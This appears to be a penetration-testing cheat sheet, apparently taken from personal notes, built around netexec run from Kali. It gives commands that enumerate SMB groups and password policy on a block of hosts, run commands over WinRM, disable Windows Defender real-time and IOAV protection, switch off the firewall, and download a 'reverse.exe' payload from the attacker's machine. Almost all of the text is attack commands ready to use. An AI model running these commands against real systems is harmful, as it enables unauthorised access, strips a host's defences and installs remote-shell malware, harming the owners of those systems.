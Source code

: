 ```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --groups
```

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --local-groups
```

```bash - kali
netexec smb 192.168.1.50-192.168.1.55 -u $USER -p $PASSWORD --pass-pol
```

#### 14 SwisArmy netexec Command Execution
- x : cmd
- X : PowerShell

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -x 'whoami'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'whoami'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'whoami /groups'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'ipconfig /all'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'Get-MpComputerStatus'
```

Disable real time monitoring:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'Set-MpPreference -DisableRealtimeMonitoring $true'
```

Disable Anti-Virus:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'Set-MpPreference -DisableIOAVProtection $true'
```

Disable Firewall:
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'netsh advfirewall show allprofiles'
```

```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'netsh advfirewall set allprofiles state off'
```
Get a file:

[[Python#Server]]
```bash - kali
netexec winrm $TARGET -u $USER -p $PASSWORD -X 'Invoke-WebRequest -Uri "http://$KALI/reverse.exe" -OutFile "reverse.exe"'
```
